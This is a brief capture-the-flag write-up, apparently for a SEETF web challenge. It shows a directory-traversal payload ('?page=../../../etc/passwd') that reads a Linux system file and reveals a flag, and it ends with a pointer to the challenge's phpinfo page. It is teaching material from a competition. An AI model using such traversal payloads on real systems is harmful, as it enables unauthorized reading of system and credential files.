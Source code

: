 this was a basic dir traversal

just look at the cool website's url at page parameter and try to think like a hacker, what would you get hold of a file in linux machine:

/etc/passwd

that's it

the url as goes:

[http://sourcelessguessyweb.chall.seetf.sg:1337/?page=whysoserious](http://sourcelessguessyweb.chall.seetf.sg:1337/?page=whysoserious)

we change it to:

[http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../etc/passwd](http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../etc/passwd)

boom , look at the pg source , we get the flag:SEE{2nd_fl4g_n33ds_RCE_g00d_luck_h4x0r}s

nothing to see , just some headers for reference

[http://sourcelessguessyweb.chall.seetf.sg:1337/phpinfo.php#:~:text=register_argc_argv](http://sourcelessguessyweb.chall.seetf.sg:1337/phpinfo.php#:~:text=register_argc_argv)